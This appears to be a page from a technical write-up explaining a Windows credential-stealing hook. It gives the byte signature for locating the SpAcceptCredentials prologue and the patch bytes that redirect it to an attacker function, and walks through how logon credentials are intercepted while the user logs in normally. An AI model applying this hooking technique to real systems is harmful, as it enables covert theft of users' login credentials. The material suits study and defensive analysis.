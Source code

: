 ## assembly code analysis

### 1. target function pattern (SpAcceptCredentials prologue)

```cpp
char startOfPatternSpAccecptedCredentials[] = { 
    0x48, 0x83, 0xec, 0x20, 0x49, 0x8b, 0xd9, 0x49, 0x8b, 0xf8, 0x8b, 0xf1, 0x48 
};
```

**assembly breakdown:**
```assembly
48 83 ec 20    ; sub rsp, 32          ; allocate 32 bytes on stack
49 8b d9       ; mov rbx, r9          ; save 4th parameter (supplementalcredentials)
49 8b f8       ; mov rdi, r8          ; save 3rd parameter (primarycredentials)  
8b f1          ; mov esi, ecx         ; save 1st parameter (logontype)
48             ; (part of next instruction)
```

**what this represents:**
- **function prologue**: standard x64 function entry point
- **stack allocation**: `sub rsp, 32` allocates local variable space
- **parameter preservation**: saves function parameters to registers for later use
- **x64 calling convention**: parameters passed in `rcx`, `rdx`, `r8`, `r9`

### 2. hook assembly code

```cpp
char bytesToPatchSpAccecptedCredentials[12] = { 0x48, 0xb8 };
```

**assembly breakdown:**
```assembly
48 b8 [8-byte-address]  ; mov rax, <64-bit-address-of-hook-function>
ff e0                    ; jmp rax                    ; jump to hook function
```

**what this does:**
- **load hook address**: `mov rax, <address>` loads our function address into `rax`
- **jump to hook**: `jmp rax` transfers execution to our hook function
- **total size**: 10 bytes (2 + 8 + 2)

## function hooking mechanism

### how function hooking works

**the magic of interception:**
1. **original call**: windows calls `SpAcceptCredentials(rcx, rdx, r8, r9)`
2. **patched entry**: first instruction is replaced with our hook code
3. **execution redirect**: instead of normal function prologue, our code executes
4. **parameter preservation**: same parameters are available to our hook function
5. **transparent operation**: user still logs in successfully
